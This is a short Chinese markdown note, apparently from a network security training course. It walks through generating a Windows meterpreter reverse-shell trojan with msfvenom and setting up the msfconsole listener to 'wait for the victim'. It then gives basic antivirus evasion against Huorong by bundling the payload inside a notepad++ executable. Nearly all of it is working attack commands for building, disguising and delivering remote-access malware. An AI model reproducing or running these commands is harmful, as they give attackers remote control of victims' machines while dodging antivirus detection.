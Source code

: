 # 蚁景网安-网络安全

![image-20230729103838094](assets/image-20230729103838094.png)

生成木马病毒：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.26.130 lport=9999 -f exe -o demo9999.exe

生成以后记得在msfconsole里开启监听，等待受害者运行上钩

use exploit/multi/handler

set payload windows/x64/meterpreter_reverse_tcp

Set lhost 192.168.26.130

set lport 9999

run



防止杀毒软件查杀，躲避火绒的探测

最基础的免杀【对于其他杀毒软件效果不同，具体情况请自行尝试】

捆绑木马

```markdown
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.26.130 lport=9999 -f exe -x notepad+ +.exe -o notepad+ +.exe
```



